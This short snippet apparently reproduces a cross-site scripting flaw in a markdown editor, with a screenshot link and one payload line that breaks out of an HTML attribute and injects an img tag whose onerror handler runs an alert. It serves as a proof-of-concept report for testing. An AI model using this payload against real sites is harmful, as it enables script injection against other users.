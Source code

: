 md编辑器xss复现
![xss](https://github.com/user-attachments/assets/f20812dc-5486-4d38-8c70-eb3f7d90535b)
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
